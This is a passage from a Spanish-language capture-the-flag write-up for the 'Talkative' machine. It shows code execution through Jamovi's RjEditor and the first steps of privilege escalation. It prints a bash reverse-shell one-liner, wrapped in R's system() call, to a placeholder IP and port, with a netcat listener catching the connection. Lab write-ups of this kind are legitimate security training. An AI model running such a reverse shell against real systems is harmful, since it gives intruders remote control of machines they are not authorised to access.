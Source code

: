 

Si buscamos en la documentación de Jamovi, nos encontramos con un apartado que menciona la ejecución de [**comandos**](https://www.jamovi.org/about-arbitrary-code.html) donde utilizamos RjEditor para efectuar esta tarea, ya que el lenguaje principal de Jamovi es R tenemos que configurar nuestra shell reversa en este lenguaje, aquí les dejo [**documentación**](https://www.rdocumentation.org/packages/base/versions/3.6.2/topics/system) donde indica el uso de la función "system" para ejecutar comandos de sistema en el lenguaje R.


Utilizando la cheatsheet de [**PentestMonkey**](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) y la documentación de R anteriormente mencionada, el comando a utilizar sería el siguiente:


```terminal
system("bash -c 'bash -i >& /dev/tcp/TUIP/TUPUERTO 0>&1'")
```


Ingresamos el comando dentro del RjEditor y ejecutamos(CTRL+SHIFT+ENTER):


![1](https://nik0sec.github.io/assets/img/sample/Talkative/11.png)


Ahora si nos vamos a netcat, deberíamos de haber establecido la conexión de manera exitosa:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/12.png)


## Escalando Privilegios


Si ejecutamos el comando whoami nos indica que somos el usuario "root", sin embargo, no estamos habilitados para ejecutar ninguna acción como usuario administrativo del sistema así que vamos a tener que indagar dentro de los directorios y archivos para encontrar alguna credencial, servicio mal configurado u otras cosas.


Lo curioso es que la máquina no permite la ejecución de comandos tales como unzip, grep, curl, wget, nc, entre otras. Por lo que impide la posiblidad de subir herramientas de automatización que buscan rutas para escalar privilegios o subir cualquier otro archivo. Lo que yo hice en este caso fué buscar de manera manual entre los directorios y archivos, lo que si estaba disponible era el comando "find" con lo que también pude buscar binarios SUID o capacidades de Linux.



Si bien es cierto que no está disponible python, pero si está disponible python3 así que es posible convertir nuestra shell "tonta" a una shell full interactiva para ejecutar comandos como "clear" o manejar correctamente el SIGINT(Ctrl-C), les dejo mi [**script**](https://github.com/Nik0Sec/FullTTY) que automatiza este proceso en caso de que no quieran hacerlo de forma manual



Cuando terminemos de examinar el sistema a fondo, nos encontraremos con un archivo .omv en el directorio /root:


![1](https://nik0sec.github.io/assets/img/sample/Talkative/13.png)
